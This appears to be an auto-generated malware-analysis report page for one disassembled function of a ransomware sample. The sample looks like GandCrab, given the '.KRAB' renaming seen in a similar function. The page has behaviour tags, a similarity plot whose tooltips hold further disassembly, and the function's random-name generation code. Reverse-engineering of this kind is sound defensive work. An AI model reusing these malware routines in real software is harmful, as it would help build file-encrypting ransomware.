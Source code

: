 ```yaml
---
layout: post
title:  "fcn.00408ec1 @ 470263fe7e7cc115b95cd041d643e3b5"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00408ec1
- **Origin (md5):** 470263fe7e7cc115b95cd041d643e3b5
- **VirusTotal:** [virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5][virustotal_ref]

# Code Tags
<span class="tag" id="CRYPTO">CRYPTO</span>
<span class="tag" id="LINKING">LINKING</span>


# Behaviour Tags
<span class="bhv-tag" id="MODIFIES_DACL">MODIFIES_DACL / 0.12307093316637768</span><span class="bhv-tag" id="CONNECTS_TO_LISTENER">CONNECTS_TO_LISTENER / 0.09496459655645444</span><span class="bhv-tag" id="CHECKS_CPU_ARCHITECTURE">CHECKS_CPU_ARCHITECTURE / 0.04218621622754245</span><span class="bhv-tag" id="CREATES_SOCKET_LISTENER">CREATES_SOCKET_LISTENER / 0.009124213049023505</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [7.915925979614258, -25.682613372802734, '<b><a href="/report/fcn.00408ec1@470263fe7e7cc115b95cd041d643e3b5">fcn.00408ec1</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x58<br>push ebx<br>push esi<br>push edi<br>push 0xf0000000<br>xor eax, eax<br>mov dword[ebp-0xc], ecx<br>inc eax<br>xor esi, esi<br>push eax<br>push esi<br>push esi<br>lea eax, [ebp-8]<br>mov edi, edx<br>push eax<br>call dword[sym.imp.ADVAPI32.dll_CryptAcquireContextW]<br>test eax, eax<br>je 0x408fee<br>push 0x1a<br>xor ecx, ecx<br>pop edx<br>lea eax, [ecx+0x61]<br>mov byte[ebp+ecx-0x58], al<br>inc ecx<br>cmp ecx, edx<br>jb 0x408ef3<br>lea eax, [edi+1]<br>push eax<br>lea ecx, [ebp-0x3c]<br>call fcn.0040623f<br>push edi<br>lea ecx, [ebp-0x3c]<br>call fcn.00406284<br>mov ebx, eax<br>test ebx, ebx<br>jne 0x408f33<br>push eax<br>push dword[ebp-8]<br>call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]<br>lea ecx, [ebp-0x3c]<br>call fcn.00406273<br>xor eax, eax<br>jmp 0x408ff0<br>lea eax, [ebp-0x1c]<br>mov dword[ebp-0x2c], 0x70797243<br>push eax<br>mov dword[ebp-0x28], 0x6e654774<br>mov dword[ebp-0x24], 0x646e6152<br>mov word[ebp-0x20], 0x6d6f<br>mov byte[ebp-0x1e], 0<br>mov dword[ebp-0x1c], 0x61766441<br>mov dword[ebp-0x18], 0x32336970<br>mov dword[ebp-0x14], 0x6c6c642e<br>mov byte[ebp-0x10], 0<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleA]<br>test eax, eax<br>jne 0x408f87<br>lea eax, [ebp-0x1c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryA]<br>test eax, eax<br>je 0x408fdb<br>lea ecx, [ebp-0x2c]<br>push ecx<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>test eax, eax<br>je 0x408fdb<br>cmp dword[ebp+8], esi<br>jne 0x408fca<br>push ebx<br>push edi<br>push dword[ebp-8]<br>call eax<br>test eax, eax<br>je 0x408fdb<br>test edi, edi<br>je 0x408fc3<br>mov ecx, dword[ebp-0xc]<br>sub ebx, ecx<br>push 0x1a<br>pop esi<br>movzx eax, byte[ebx+ecx]<br>cdq <br>idiv esi<br>mov al, byte[ebp+edx-0x58]<br>mov byte[ecx], al<br>inc ecx<br>dec edi<br>jne 0x408fb2<br>xor eax, eax<br>lea esi, [eax+1]<br>jmp 0x408fdb<br>push dword[ebp-0xc]<br>push edi<br>push dword[ebp-8]<br>call eax<br>test eax, eax<br>push 1<br>pop eax<br>cmovne esi, eax<br>push 0<br>push dword[ebp-8]<br>call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]<br>lea ecx, [ebp-0x3c]<br>call fcn.00406273<br>mov eax, esi<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'point { fill-color: #e0440e; }'],
[-55.27457809448242, 34.622676849365234, '<b><a href="/report/fcn.00408cff@470263fe7e7cc115b95cd041d643e3b5">fcn.00408cff</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x74<br>push ebx<br>push esi<br>push edi<br>push 0xf0000000<br>push 1<br>xor ebx, ebx<br>mov dword[ebp-8], ecx<br>push ebx<br>push ebx<br>lea eax, [ebp-4]<br>mov edi, edx<br>push eax<br>call dword[sym.imp.ADVAPI32.dll_CryptAcquireContextW]<br>test eax, eax<br>je 0x408e17<br>push 0x1a<br>pop edx<br>xor ecx, ecx<br>mov dword[ebp-0xc], edx<br>lea eax, [ecx+0x61]<br>mov word[ebp+ecx*2-0x74], ax<br>inc ecx<br>cmp ecx, edx<br>jb 0x408d32<br>lea esi, [edi+edi]<br>lea eax, [esi+1]<br>push eax<br>lea ecx, [ebp-0x3c]<br>call fcn.0040623f<br>push esi<br>lea ecx, [ebp-0x3c]<br>call fcn.00406284<br>mov esi, eax<br>test esi, esi<br>jne 0x408d76<br>push eax<br>push dword[ebp-4]<br>call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]<br>lea ecx, [ebp-0x3c]<br>call fcn.00406273<br>xor eax, eax<br>jmp 0x408e19<br>lea eax, [ebp-0x1c]<br>mov dword[ebp-0x2c], 0x70797243<br>push eax<br>mov dword[ebp-0x28], 0x6e654774<br>mov dword[ebp-0x24], 0x646e6152<br>mov word[ebp-0x20], 0x6d6f<br>mov byte[ebp-0x1e], bl<br>mov dword[ebp-0x1c], 0x61766441<br>mov dword[ebp-0x18], 0x32336970<br>mov dword[ebp-0x14], 0x6c6c642e<br>mov byte[ebp-0x10], bl<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleA]<br>test eax, eax<br>jne 0x408dc8<br>lea eax, [ebp-0x1c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryA]<br>test eax, eax<br>je 0x408e04<br>lea ecx, [ebp-0x2c]<br>push ecx<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>test eax, eax<br>je 0x408e04<br>push esi<br>push edi<br>push dword[ebp-4]<br>call eax<br>test eax, eax<br>je 0x408e04<br>xor ecx, ecx<br>test edi, edi<br>je 0x408e01<br>mov ebx, dword[ebp-8]<br>movzx eax, byte[ecx+esi]<br>cdq <br>idiv dword[ebp-0xc]<br>mov ax, word[ebp+edx*2-0x74]<br>mov word[ebx+ecx*2], ax<br>inc ecx<br>cmp ecx, edi<br>jb 0x408deb<br>xor ebx, ebx<br>inc ebx<br>push 0<br>push dword[ebp-4]<br>call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]<br>lea ecx, [ebp-0x3c]<br>call fcn.00406273<br>mov eax, ebx<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[53.0499382019043, 49.13985061645508, '<b><a href="/report/fcn.00401261@470263fe7e7cc115b95cd041d643e3b5">fcn.00401261</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0xa4<br>push ebx<br>push esi<br>push edi<br>mov edi, ecx<br>mov dword[ebp-0xc], edx<br>xor ebx, ebx<br>mov ecx, 0x21c<br>mov dword[ebp-8], ebx<br>call fcn.00408cd4<br>mov esi, eax<br>mov dword[ebp-0x24], esi<br>test esi, esi<br>jne 0x401291<br>xor eax, eax<br>jmp 0x4014d2<br>push ebx<br>push 0x88000000<br>push 3<br>push ebx<br>push ebx<br>push 0xc0000000<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CreateFileW]<br>mov edi, eax<br>cmp edi, 0xffffffff<br>je 0x4014b7<br>push 2<br>push ebx<br>push 0xffffffffffffffff<br>push 0xfffffde4<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>test eax, eax<br>je 0x401331<br>push ebx<br>lea eax, [ebp-8]<br>push eax<br>push 0x21c<br>push esi<br>push edi<br>call dword[sym.imp.KERNEL32.dll_ReadFile]<br>test eax, eax<br>je 0x40131a<br>cmp dword[esi+0x214], 0x93892918<br>jne 0x40131a<br>cmp dword[esi+0x218], 0x38281<br>jne 0x40131a<br>mov eax, dword[ebp+0x10]<br>push dword[eax+0x1c]<br>push dword[eax+0x20]<br>push ebx<br>push ebx<br>push edi<br>call dword[sym.imp.KERNEL32.dll_UnlockFile]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov ecx, esi<br>call fcn.00408ce5<br>jmp 0x40128a<br>push ebx<br>push ebx<br>xorps xmm0, xmm0<br>movlpd qword[ebp-0x18], xmm0<br>push dword[ebp-0x14]<br>push dword[ebp-0x18]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>push dword[ebp-0xc]<br>lea edx, [ebp-0x34]<br>mov dword[ebp-8], ebx<br>push esi<br>lea ecx, [ebp-0x54]<br>call fcn.00401180<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x40130e<br>push 0x40<br>pop eax<br>mov byte[ebp-0x60], bl<br>dec eax<br>jne 0x40134c<br>push ecx<br>push 0x100<br>lea edx, [ebp-0x54]<br>lea ecx, [ebp-0xa0]<br>call fcn.00406de8<br>mov eax, dword[ebp-0x34]<br>add esp, 8<br>mov ecx, dword[esi+0x210]<br>mov dword[ebp-0x88], eax<br>inc ecx<br>mov eax, dword[ebp-0x30]<br>mov dword[ebp-0x84], eax<br>mov dword[ebp-0x80], ebx<br>mov dword[ebp-0x7c], ebx<br>call fcn.00408cd4<br>mov ecx, dword[esi+0x210]<br>add ecx, 5<br>mov dword[ebp-0x10], eax<br>call fcn.00408cd4<br>mov dword[ebp-0xc], eax<br>mov dword[ebp-4], ebx<br>push ebx<br>lea eax, [ebp-8]<br>push eax<br>push dword[esi+0x210]<br>push dword[ebp-0x10]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_ReadFile]<br>test eax, eax<br>je 0x401466<br>mov ecx, dword[ebp-8]<br>test ecx, ecx<br>je 0x401466<br>cmp ecx, dword[esi+0x210]<br>mov eax, dword[ebp-4]<br>push 1<br>pop edx<br>cmovb eax, edx<br>cmp dword[ebp+0xc], ebx<br>mov edx, dword[ebp-0x10]<br>cmovne eax, dword[ebp+0xc]<br>add dword[esi+0x200], ecx<br>lea ecx, [ebp-0xa0]<br>mov dword[ebp-4], eax<br>adc dword[esi+0x204], ebx<br>mov eax, dword[ebp-8]<br>mov esi, dword[ebp-0xc]<br>push eax<br>push esi<br>mov dword[ebp-0x1c], eax<br>call fcn.00406e65<br>mov eax, dword[ebp-0x1c]<br>pop ecx<br>pop ecx<br>xor ecx, ecx<br>neg eax<br>inc ecx<br>cdq <br>push ecx<br>push ebx<br>push edx<br>push eax<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>mov eax, ebx<br>mov dword[ebp-0x14], ebx<br>cmp eax, 0x64<br>jge 0x40144f<br>push ebx<br>lea eax, [ebp-0x2c]<br>push eax<br>push dword[ebp-0x1c]<br>push esi<br>push edi<br>call dword[sym.imp.KERNEL32.dll_WriteFile]<br>test eax, eax<br>jne 0x40144f<br>push 0x64<br>call dword[sym.imp.KERNEL32.dll_Sleep]<br>mov eax, dword[ebp-0x14]<br>inc eax<br>mov dword[ebp-0x14], eax<br>jmp 0x401425<br>mov esi, dword[ebp-0x24]<br>xor eax, eax<br>mov ecx, dword[ebp-4]<br>inc eax<br>add dword[esi+0x208], eax<br>adc dword[esi+0x20c], ebx<br>jmp 0x40146e<br>xor eax, eax<br>lea ecx, [eax+1]<br>mov dword[ebp-4], ecx<br>test ecx, ecx<br>je 0x4013a4<br>cmp dword[ebp+0xc], ebx<br>je 0x401493<br>push 2<br>push ebx<br>xorps xmm0, xmm0<br>movlpd qword[ebp-0x28], xmm0<br>push dword[ebp-0x24]<br>push dword[ebp-0x28]<br>push edi<br>call dword[sym.imp.KERNEL32.dll_SetFilePointerEx]<br>push ebx<br>lea eax, [ebp-0x2c]<br>push eax<br>push 0x21c<br>push esi<br>push edi<br>call dword[sym.imp.KERNEL32.dll_WriteFile]<br>mov ecx, dword[ebp-0x10]<br>mov ebx, eax<br>call fcn.00408ce5<br>mov ecx, dword[ebp-0xc]<br>call fcn.00408ce5<br>mov ecx, esi<br>call fcn.00408ce5<br>cmp edi, 0xffffffff<br>je 0x4014d0<br>mov eax, dword[ebp+0x14]<br>push edi<br>or dword[eax], 0xffffffff<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>mov eax, ebx<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[49.32870864868164, 0.31418177485466003, '<b><a href="/report/fcn.00408e20@470263fe7e7cc115b95cd041d643e3b5">fcn.00408e20</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x28<br>push ebx<br>push 0xf0000000<br>push 1<br>xor ebx, ebx<br>lea eax, [ebp-4]<br>push ebx<br>push ebx<br>push eax<br>mov dword[ebp-8], ebx<br>call dword[sym.imp.ADVAPI32.dll_CryptAcquireContextW]<br>test eax, eax<br>je 0x408eb9<br>lea eax, [ebp-0x18]<br>mov dword[ebp-0x28], 0x70797243<br>push eax<br>mov dword[ebp-0x24], 0x6e654774<br>mov dword[ebp-0x20], 0x646e6152<br>mov word[ebp-0x1c], 0x6d6f<br>mov byte[ebp-0x1a], bl<br>mov dword[ebp-0x18], 0x61766441<br>mov dword[ebp-0x14], 0x32336970<br>mov dword[ebp-0x10], 0x6c6c642e<br>mov byte[ebp-0xc], bl<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleA]<br>test eax, eax<br>jne 0x408e95<br>lea eax, [ebp-0x18]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryA]<br>test eax, eax<br>je 0x408eaf<br>lea ecx, [ebp-0x28]<br>push ecx<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>test eax, eax<br>je 0x408eaf<br>lea ecx, [ebp-8]<br>push ecx<br>push 4<br>push dword[ebp-4]<br>call eax<br>push ebx<br>push dword[ebp-4]<br>call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]<br>mov eax, dword[ebp-8]<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[-30.460094451904297, 76.64027404785156, '<b><a href="/report/fcn.0043db80@e2ba7f10eb234338a49853c34d7d9c56">fcn.0043db80</a><br>@e2ba7f10eb234338a49853c34d7d9c56</b><br>push ebp<br>mov ebp, esp<br>sub esp, 8<br>push esi<br>push str.kernel32<br>mov dword[ebp-4], 0<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleA]<br>mov esi, eax<br>test esi, esi<br>jne 0x43dba4<br>pop esi<br>mov esp, ebp<br>pop ebp<br>ret <br>push ebx<br>push edi<br>push str.LoadLibraryExA<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>mov ebx, dword[ebp+8]<br>mov edi, eax<br>push 0x515b24<br>push ebx<br>mov dword[ebp-8], edi<br>call fcn.004f6872<br>add esp, 8<br>test eax, eax<br>je 0x43dbf2<br>test edi, edi<br>je 0x43dbe1<br>push 8<br>push 0<br>push ebx<br>call edi<br>pop edi<br>pop ebx<br>mov dword[ebp-4], eax<br>pop esi<br>mov esp, ebp<br>pop ebp<br>ret <br>push ebx<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryA]<br>pop edi<br>pop ebx<br>mov dword[ebp-4], eax<br>pop esi<br>mov esp, ebp<br>pop ebp<br>ret <br>test edi, edi<br>je 0x43dc1a<br>push str.AddDllDirectory<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>test eax, eax<br>je 0x43dc1a<br>push 0x800<br>push 0<br>push ebx<br>call edi<br>pop edi<br>pop ebx<br>mov dword[ebp-4], eax<br>pop esi<br>mov esp, ebp<br>pop ebp<br>ret <br>push 0<br>push 0<br>call dword[sym.imp.KERNEL32.dll_GetSystemDirectoryA]<br>mov edi, eax<br>test edi, edi<br>je 0x43dcb6<br>mov eax, ebx<br>lea edx, [eax+1]<br>mov cl, byte[eax]<br>inc eax<br>test cl, cl<br>jne 0x43dc33<br>sub eax, edx<br>lea eax, [eax+edi+1]<br>push eax<br>call dword[section..data]<br>mov esi, eax<br>add esp, 4<br>test esi, esi<br>je 0x43dcac<br>push edi<br>push esi<br>call dword[sym.imp.KERNEL32.dll_GetSystemDirectoryA]<br>test eax, eax<br>je 0x43dcac<br>mov eax, esi<br>lea edx, [eax+1]<br>mov cl, byte[eax]<br>inc eax<br>test cl, cl<br>jne 0x43dc61<br>sub eax, edx<br>mov ecx, 0x5c<br>mov word[eax+esi], cx<br>mov eax, esi<br>lea edx, [eax+1]<br>mov cl, byte[eax]<br>inc eax<br>test cl, cl<br>jne 0x43dc78<br>sub eax, edx<br>lea edx, [eax+esi]<br>mov ecx, ebx<br>sub edx, ebx<br>mov al, byte[ecx]<br>mov byte[edx+ecx], al<br>inc ecx<br>test al, al<br>jne 0x43dc88<br>mov eax, dword[ebp-8]<br>test eax, eax<br>je 0x43dca2<br>push 8<br>push 0<br>push esi<br>call eax<br>jmp 0x43dca9<br>push esi<br>call dword[sym.imp.KERNEL32.dll_LoadLibraryA]<br>mov dword[ebp-4], eax<br>push esi<br>call dword[0x558004]<br>add esp, 4<br>mov eax, dword[ebp-4]<br>pop edi<br>pop ebx<br>pop esi<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[18.00188446044922, 83.15299224853516, '<b><a href="/report/fcn.0040764a@470263fe7e7cc115b95cd041d643e3b5">fcn.0040764a</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x38<br>mov eax, dword[0x423304]<br>push ebx<br>push esi<br>xor ebx, ebx<br>mov dword[ebp-8], edx<br>mov esi, ecx<br>push edi<br>mov edi, ebx<br>test eax, eax<br>je 0x407673<br>push eax<br>call dword[sym.imp.KERNEL32.dll_lstrlenW]<br>lea edi, [eax*2+2]<br>push esi<br>call dword[sym.imp.KERNEL32.dll_lstrlenW]<br>add eax, edi<br>lea ecx, [eax*2+0x18]<br>call fcn.00408cd4<br>mov edi, eax<br>test edi, edi<br>je 0x4077ad<br>mov eax, dword[0x423304]<br>test eax, eax<br>jne 0x4076ad<br>push esi<br>push str._s.KRAB<br>push edi<br>call dword[sym.imp.USER32.dll_wsprintfW]<br>add esp, 0xc<br>jmp 0x4076be<br>push eax<br>push esi<br>push str._s_s<br>push edi<br>call dword[sym.imp.USER32.dll_wsprintfW]<br>add esp, 0x10<br>mov ecx, esi<br>call fcn.004074e1<br>test eax, eax<br>jne 0x4077a4<br>mov ecx, esi<br>call fcn.004071ba<br>test eax, eax<br>jne 0x4077a1<br>mov eax, dword[ebp-8]<br>cmp dword[eax+0x20], 2<br>jb 0x4077a1<br>mov ecx, esi<br>call fcn.00407410<br>xor ecx, ecx<br>xor edx, edx<br>inc ecx<br>test eax, eax<br>cmovne ecx, edx<br>mov dword[ebp-4], ecx<br>cmp dword[0x423310], edx<br>jne 0x407775<br>push 0x6e<br>pop eax<br>push 0x74<br>mov word[ebp-0x38], ax<br>pop eax<br>push 0x64<br>pop ecx<br>push 0x6c<br>pop edx<br>mov word[ebp-0x36], ax<br>push 0x2e<br>pop eax<br>mov word[ebp-0x2e], ax<br>xor eax, eax<br>mov dword[ebp-0x26], eax<br>lea eax, [ebp-0x38]<br>push eax<br>mov word[ebp-0x34], cx<br>mov word[ebp-0x32], dx<br>mov word[ebp-0x30], dx<br>mov word[ebp-0x2c], cx<br>mov word[ebp-0x2a], dx<br>mov word[ebp-0x28], dx<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]<br>test eax, eax<br>je 0x407772<br>movdqa xmm0, xmmword[0x41a890]<br>lea ecx, [ebp-0x20]<br>push ecx<br>push eax<br>movdqu xmmword[ebp-0x20], xmm0<br>mov dword[ebp-0x10], 0x656c6946<br>mov byte[ebp-0xc], bl<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>mov dword[0x423310], eax<br>mov ecx, dword[ebp-4]<br>mov edx, dword[ebp+8]<br>lea eax, [ebp-4]<br>push eax<br>push dword[ebp-8]<br>mov dword[ebp-4], ebx<br>push ecx<br>push ecx<br>mov ecx, esi<br>call fcn.00401261<br>add esp, 0x10<br>test eax, eax<br>je 0x4077a1<br>cmp dword[ebp-4], ebx<br>je 0x4077a1<br>push 1<br>push edi<br>push esi<br>call dword[sym.imp.KERNEL32.dll_MoveFileExW]<br>xor ebx, ebx<br>inc ebx<br>mov ecx, edi<br>call fcn.00408ce5<br>mov eax, ebx<br>pop edi<br>pop esi<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[-38.73889923095703, -11.32664966583252, '<b><a href="/report/fcn.0040bcdc@470263fe7e7cc115b95cd041d643e3b5">fcn.0040bcdc</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x18<br>push ebx<br>push esi<br>push edi<br>mov edi, edx<br>xor bl, bl<br>call fcn.0040bba9<br>push eax<br>mov dword[ebp-8], eax<br>call dword[sym.imp.KERNEL32.dll_lstrlenW]<br>mov esi, eax<br>add esi, esi<br>push 4<br>push 0x3000<br>lea eax, [esi+0x10]<br>lea ecx, [eax+2]<br>mov dword[ebp-0xc], eax<br>push ecx<br>push 0<br>call dword[sym.imp.KERNEL32.dll_VirtualAlloc]<br>push esi<br>push dword[ebp-8]<br>mov dword[ebp-4], eax<br>lea ecx, [eax+0xc]<br>push ecx<br>call fcn.0040e2d0<br>mov eax, dword[ebp-4]<br>xor ecx, ecx<br>inc ecx<br>mov byte[eax], cl<br>mov ecx, edi<br>mov dword[eax+8], esi<br>call fcn.0040bba9<br>mov edi, eax<br>mov ecx, edi<br>call fcn.0040bc28<br>mov esi, eax<br>add esp, 0xc<br>mov dword[ebp-0x10], esi<br>test esi, esi<br>je 0x40bd90<br>push str.ZwSetInformationFile<br>push str.ntdll<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>and dword[ebp-0x18], 0<br>lea ecx, [ebp-0x18]<br>and dword[ebp-0x14], 0<br>push 0xb<br>push dword[ebp-0xc]<br>push dword[ebp-4]<br>push ecx<br>push esi<br>call eax<br>push dword[ebp-0x10]<br>mov esi, eax<br>call dword[sym.imp.KERNEL32.dll_CloseHandle]<br>push 1<br>test esi, esi<br>movzx ebx, bl<br>pop eax<br>cmovns ebx, eax<br>mov eax, dword[ebp-8]<br>mov esi, dword[sym.imp.KERNEL32.dll_VirtualFree]<br>test eax, eax<br>je 0x40bda7<br>push 0x8000<br>push 0<br>push eax<br>call esi<br>push 0x8000<br>push 0<br>push dword[ebp-4]<br>call esi<br>test edi, edi<br>je 0x40bdc1<br>push 0x8000<br>push 0<br>push edi<br>call esi<br>pop edi<br>pop esi<br>mov al, bl<br>pop ebx<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],
[0.5765200257301331, 29.5919132232666, '<b><a href="/report/fcn.00408a17@470263fe7e7cc115b95cd041d643e3b5">fcn.00408a17</a><br>@470263fe7e7cc115b95cd041d643e3b5</b><br>push ebp<br>mov ebp, esp<br>sub esp, 0x24<br>push esi<br>push dword[ebp+8]<br>call dword[sym.imp.KERNEL32.dll_lstrlenW]<br>add eax, dword[ebp+0xc]<br>lea ecx, [eax*2+4]<br>call fcn.00408cd4<br>mov esi, eax<br>test esi, esi<br>je 0x408aed<br>push ebx<br>push 0x6e<br>pop eax<br>push 0x74<br>mov word[ebp-0x24], ax<br>pop eax<br>push 0x64<br>pop ecx<br>push 0x6c<br>pop edx<br>mov word[ebp-0x22], ax<br>push 0x2e<br>pop eax<br>mov word[ebp-0x1a], ax<br>xor eax, eax<br>mov dword[ebp-0x12], eax<br>lea eax, [ebp-0x24]<br>push eax<br>mov word[ebp-0x20], cx<br>mov word[ebp-0x1e], dx<br>mov word[ebp-0x1c], dx<br>mov word[ebp-0x18], cx<br>mov word[ebp-0x16], dx<br>mov word[ebp-0x14], dx<br>call dword[sym.imp.KERNEL32.dll_GetModuleHandleW]<br>mov ebx, eax<br>test ebx, ebx<br>je 0x408ad2<br>mov eax, dword[0x423314]<br>mov dword[ebp-0xc], 0x7773765f<br>mov dword[ebp-8], 0x6e697270<br>mov word[ebp-4], 0x6674<br>mov byte[ebp-2], 0<br>test eax, eax<br>jne 0x408add<br>lea eax, [ebp-0xc]<br>push eax<br>push ebx<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>mov dword[0x423314], eax<br>test eax, eax<br>jne 0x408add<br>lea eax, [ebp-0xb]<br>push eax<br>push ebx<br>call dword[sym.imp.KERNEL32.dll_GetProcAddress]<br>mov dword[0x423314], eax<br>test eax, eax<br>jne 0x408add<br>mov ecx, esi<br>call fcn.00408ce5<br>xor eax, eax<br>jmp 0x408aec<br>lea ecx, [ebp+0x14]<br>push ecx<br>push dword[ebp+8]<br>push esi<br>call eax<br>add esp, 0xc<br>mov eax, esi<br>pop ebx<br>pop esi<br>mov esp, ebp<br>pop ebp<br>ret <br><eoc> ', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push ebp
mov ebp, esp
sub esp, 0x58
push ebx
push esi
push edi
push 0xf0000000
xor eax, eax
mov dword[ebp-0xc], ecx
inc eax
xor esi, esi
push eax
push esi
push esi
lea eax, [ebp-8]
mov edi, edx
push eax
call dword[sym.imp.ADVAPI32.dll_CryptAcquireContextW]
test eax, eax
je 0x408fee
push 0x1a
xor ecx, ecx
pop edx
lea eax, [ecx+0x61]
mov byte[ebp+ecx-0x58], al
inc ecx
cmp ecx, edx
jb 0x408ef3
lea eax, [edi+1]
push eax
lea ecx, [ebp-0x3c]
call fcn.0040623f
push edi
lea ecx, [ebp-0x3c]
call fcn.00406284
mov ebx, eax
test ebx, ebx
jne 0x408f33
push eax
push dword[ebp-8]
call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]
lea ecx, [ebp-0x3c]
call fcn.00406273
xor eax, eax
jmp 0x408ff0
lea eax, [ebp-0x1c]
mov dword[ebp-0x2c], 0x70797243
push eax
mov dword[ebp-0x28], 0x6e654774
mov dword[ebp-0x24], 0x646e6152
mov word[ebp-0x20], 0x6d6f
mov byte[ebp-0x1e], 0
mov dword[ebp-0x1c], 0x61766441
mov dword[ebp-0x18], 0x32336970
mov dword[ebp-0x14], 0x6c6c642e
mov byte[ebp-0x10], 0
call dword[sym.imp.KERNEL32.dll_GetModuleHandleA]
test eax, eax
jne 0x408f87
lea eax, [ebp-0x1c]
push eax
call dword[sym.imp.KERNEL32.dll_LoadLibraryA]
test eax, eax
je 0x408fdb
lea ecx, [ebp-0x2c]
push ecx
push eax
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
test eax, eax
je 0x408fdb
cmp dword[ebp+8], esi
jne 0x408fca
push ebx
push edi
push dword[ebp-8]
call eax
test eax, eax
je 0x408fdb
test edi, edi
je 0x408fc3
mov ecx, dword[ebp-0xc]
sub ebx, ecx
push 0x1a
pop esi
movzx eax, byte[ebx+ecx]
cdq
idiv esi
mov al, byte[ebp+edx-0x58]
mov byte[ecx], al
inc ecx
dec edi
jne 0x408fb2
xor eax, eax
lea esi, [eax+1]
jmp 0x408fdb
push dword[ebp-0xc]
push edi
push dword[ebp-8]
call eax
test eax, eax
push 1
pop eax
cmovne esi, eax
push 0
push dword[ebp-8]
call dword[sym.imp.ADVAPI32.dll_CryptReleaseContext]
lea ecx, [ebp-0x3c]
call fcn.00406273
mov eax, esi
pop edi
pop esi
pop ebx
mov esp, ebp
pop ebp
ret

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/470263fe7e7cc115b95cd041d643e3b5